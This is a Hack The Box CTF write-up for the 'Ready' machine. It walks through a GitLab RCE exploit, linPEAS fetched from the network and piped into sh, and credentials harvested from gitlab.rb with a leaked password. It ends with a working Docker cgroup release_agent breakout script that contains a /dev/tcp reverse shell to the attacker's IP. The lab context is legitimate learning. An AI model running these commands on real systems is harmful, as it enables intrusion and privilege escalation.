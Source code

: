 ```yaml
---
title: "Ready HTB Writeup"
date: 2021-05-17T19:32:32+02:00
draft: false
Tags: [
    "Writeups",
    "hackthebox",
    "retired",
    "medium",
    "linux",
]
---
```

![Machine Info](/images/ready/1.png)

### 1. Enumeration:
* Nmap:
![](/images/ready/2.png)

2. Web Enumeration:
  * PORT 5080:
Got gitlab login form
![](/images/ready/3.png)

let's sign up:
![](/images/ready/4.png)

and we 're in:
![](/images/ready/5.png)

checking /help :
* it's gitlab version 11.4.7 
![](/images/ready/6.png)

Searching for exploits:
* got public one from exploitdb
![](/images/ready/7.png)
![](/images/ready/8.png)

* let's download and edit the exploit:

![](/images/ready/9.png)
![](/images/ready/10.png)
![](/images/ready/11.png)
![](/images/ready/12.png)

As i remember it didn't work properly (there are some new versions of this exploit on exploitdb now) and i used another exploit from github back then

* Github [exploit](https://github.com/dotPY-hax/gitlab_RCE):
  * download and edit:
![](/images/ready/13.png)

![](/images/ready/14.png)
![](/images/ready/15.png)

* ``python3 gitlab_rce.py http://10.10.10.220;5080 10.10.16.15``
![](/images/ready/16.png)

open netcat listener first and got session:
![](/images/ready/17.png)
![](/images/ready/19.png)

We are in as git

Got user ``dude`` flag:
![](/images/ready/18.png)

### Privilege Escalation:

* let's transfer our ``linPEAS`` script:

  * ``$ sudo python -m SimpleHTTPServer 80`` >> In the folder where linPEAS is

  * ``$ curl 10.10.16.15/linPEAS.sh | sh`` >> On the target machine

![](/images/ready/20.png)

![](/images/ready/29.png)
It roams the target machine looking for any interesting stuff to privilege with it .. i'll show the interesting ones only;

```text
Possible private SSH keys were found!
/var/opt/gitlab/gitlab-rails/etc/secrets.yml
```
![](/images/ready/21.png)

This gitlab.rb looks interesting:

![](/images/ready/22.png)

lets check the important paths manually:

![](/images/ready/23.png)
tons of tokens and private keys 

lets check ``gitlab.rb``:

![](/images/ready/24.png)
![](/images/ready/25.png)
Tons of configurations 
* lets just grep any passwords
  * ``cat gitlab.rb | grep -i password``
![](/images/ready/26.png)

and here we got the same password from the script again >>
``wW59U!ZKMbG9+*#h``

This will give us gitlab root not the root of ready .. 

### Rooting:

* lets switch to gitlab root

![](/images/ready/27.png)
![](/images/ready/28.png)

* docker privilege linux breakout >> got [this](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout)

![](/images/ready/30.png)

```bash
# On the host
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash

# In the container
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

#For a normal PoC =================
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#===================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/10.10.14.21/9000 0>&1" >> /cmd
chmod a+x /cmd
#===================================

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
head /output
```
Let's make a file and put this script into it:
  * don't forget to put your own ip > mine 10.10.16.15:
![](/images/ready/31.png)

let's transfer it to target machine:
![](/images/ready/32.png)
![](/images/ready/33.png)

* With changing it's mode to executable and running our netcat first on port 9000 specified already in the script:
![](/images/ready/34.png)

And here we go > finally got the root of ready machine:
![](/images/ready/35.png)

![](/images/ready/36.png)


![](/images/complete.gif)

Hope you enjoyed this writeup ..

If so kindly give me respect [Wh1rlw1nd-HTB](https://www.hackthebox.eu/home/users/profile/182588) ..
